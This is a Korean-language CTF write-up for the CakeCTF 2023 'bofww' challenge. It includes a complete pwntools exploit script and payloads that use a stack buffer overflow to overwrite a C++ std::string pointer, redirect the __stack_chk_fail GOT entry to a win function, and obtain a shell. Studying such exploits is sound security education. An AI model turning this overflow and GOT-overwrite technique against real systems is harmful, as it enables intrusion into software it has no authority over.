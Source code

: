 ```yaml
---
title: "[2023CakeCTF] bofww"
tags:
- "CTF writeup"
---
```


# Exploit code
```python
from pwn import *

context.log_level = 'debug'

p = remote('ip addr',9002)

#PIE가 적용되지 않은 binary라, 위치가 고정되어 있음
scf = 0x404050 #stack_chk_fail의 got 위치
win = 0x4012f6 #쉘을 실행할 수 있는 win함수의 위치

pause()
p.sendlineafter(b'name? ',p64(win)+b'A'*(0x128)+p64(scf)+p64(0)+p64(0x404000))
p.sendlineafter(b'you? ',b'B')
p.interactive()
```

# WriteUp
우선 주어진 바이너리의 소스코드는 다음과 같았다.
```cpp
#include <iostream>

void win() {
  std::system("/bin/sh");
}

void input_person(int& age, std::string& name) {
  int _age;
  char _name[0x100];
  std::cout << "What is your first name? ";
  std::cin >> _name;
  std::cout << "How old are you? ";
  std::cin >> _age;
  name = _name;
  age = _age;
}

int main() {
  int age;
  std::string name;
  input_person(age, name);
  std::cout << "Information:" << std::endl
            << "Age: " << age << std::endl
            << "Name: " << name << std::endl;
  return 0;
}

__attribute__((constructor))
void setup(void) {
  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);
}
```
win함수가 어떠한 방법으로 실행되면 쉽게 쉘을 획득할 수 있을 것 같다. 그리고 input_person에서 버퍼 오버플로우가 발생한다. 그리고 input_person의 local variable _name을 main의 local variable name에 대입한다.

cpp에서 string은 문자열 주소값과 size 등을 가지는 구조체처럼 동작한다.

만약 name의 주소값을 stack_chk_fail의 got의 주소로 바꾸고 해당 주소에 win을 대입한다면, stack smash되어 해당 함수가 작동하려 할 때 쉘을 획득할 수 있을 것이다.

이것을 하기 위해, cpp string구조체의 간단한 구조와 _name, name간의 오프셋을 획득할 수 있어야 한다.

## std::string
SSO(small string optimization)이 적용된 std::string객체의 기본적인 형태는 다음과 같다.
```cpp
class string {
public:
private:
    std::unique_ptr<char[]> m_data;
    size_type m_size;
    size_type m_capacity;
    std::array<char, 16> m_sso;
};
```
다만 실제 구현은 이와 같지 않고, 이러한 식이라고 한다.
```cpp
class string {
public:
private:
    size_type m_size;
    union {
        class {
            std::unique_ptr<char[]> m_data;
            size_type m_capacity;
        } m_large;
        std::array<char, sizeof(m_large)> m_small;
    };
};
```
결국 중요한 것은 SSO로 구현된 std::string의 경우 객체 내부에 문자열의 주소와 문자열을 물리적으로 저장한다는 것이다. 적절한 주소를 알아낼 수만 있다면 이 값을 변경할 수도 있을 것이다.

더군다나 stack의 특성상 main의 스택 프레임보다 input_person의 스택 프레임이 더 위에 위치한다. 버퍼 오버플로우가 발생하면 main의 객체의 값을 덮어쓸 수 있음을 의미한다.

## offset
pwndbg를 이용해 디버깅해보면,

![]({{ 'assets/ctf/bofww/2.png' | relative_url }})<br>
_name은 input_person함수의 rbp-0x110

![]({{ 'assets/ctf/bofww/1.png' | relative_url }})
<br>
name은 main함수의 rbp-0x40에 위치함을 알 수 있다.
<br>
그래서 offset을 계산해 보기 위해 python을 사용해 보면,
<br>
![]({{ 'assets/ctf/bofww/3.png' | relative_url }})
<br>
이렇게 된다. 그러면 페이로드를 대강 구성할 수 있게 된다.

덮을 쉘 함수 + 버퍼 더미 + string주소를 덮을 got주소 순이다.

```python
#실패한 페이로드
payload = p64(win) + b'A'*(0x130-0x8) + p64(got)
```

그러나 이대로는 문제가 풀리지 않았다. got주소 뒤에 더미가 필요한데, string객체를 덮는 것이기에 올바르게 작동하기 위해선 size 및 더미 문자열이 필요한 것으로 생각된다.

```python
#성공한 페이로드
payload = p64(win) + b'A'*(0x130-0x8) + p64(got) +p64(0) + p64(0x404000)
```
그러면 쉘을 획득할 수 있다.

![]({{ 'assets/ctf/bofww/4.png' | relative_url }})

참고로 docker를 이용해 다른 컴퓨터에서 서버를 돌리는 거라 실제 flag는 아니다.
